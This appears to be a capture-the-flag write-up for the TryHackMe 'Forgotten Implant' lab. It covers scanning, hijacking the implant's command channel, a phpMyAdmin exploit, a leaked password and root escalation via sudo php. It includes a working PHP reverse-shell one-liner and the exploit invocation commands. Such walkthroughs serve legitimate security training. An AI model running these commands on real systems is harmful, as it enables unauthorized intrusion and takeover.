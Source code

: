 # Forgotten Implant

[TryHackMe Room](https://tryhackme.com/room/forgottenimplant)

## Solution

- nmap scan with `nmap -sV -sC $IP` shows no open ports
- I have also tried to do UDP scan and found `68/udp open|filtered dhcpc`
- using wireshark I was able to see that the target was trying to access port 81 for some HTTP
- If I open up a http server to listen on port 81 we can see some messages being received
- note: After I have did a tcp scan with nmap it actually started to send the messages, before it would not
- I tried to create the `get-job/ImxhdGVzdCI=` file and the request changed status to 200 instead of 404
- First I got a `JSON error` with the empty file or with random JSON
- Maybe we can try to send back the heartbeat type command for example: `{"job_id": 1, "cmd": "id"}`
- If we try to send this string (in fact any other string like just `id`) we get back an `Encoding error`
- Maybe this means that we have to base64 encode the payload: `echo '{"job_id": 1, "cmd": "id"}' | base64 > get-job/ImxhdGVzdCI=`
- This actually worked and gave us some response with the output of `id`
- We can try to run a reverse shell; we have to use `bash -c "revshell"` and a nc listener
- We get the first flag from the home of ada `cat /home/ada/user.txt`
- we find a database script with a password in it `s4Ucbrme`
- we also find a hidden folder `.implant` with the implant.py file executed in a cronjob
- check with pspy
- there is also another user `fi` that has a script `sniffer.py` wihch runs as root
- there is also a apache2 service running, we can make an educated guess and try to curl `localhost:80`
- the server has a phpmyadmin server running
- we can use the <https://www.exploit-db.com/exploits/50457> poc to try to run some code
- we have to use `python3 exploit.py 127.0.0.1 80 / app s4Ucbrme id`
- next we can start a revshell like before `python3 exploit.py 127.0.0.1 80 / app s4Ucbrme shell.sh` (it is easier to put the revshell inside a script)
- after we do some reconnaissance we find that the www-data user can run php with sudo
- this means we can use a revhsell with php `sudo php -r '$sock=fsockopen("HOST_IP",6971);exec("/bin/bash <&3 >&3 2>&3");'`
- we start a nc listener on the host on port 6971
- we find the root flag in /root/.root.txt
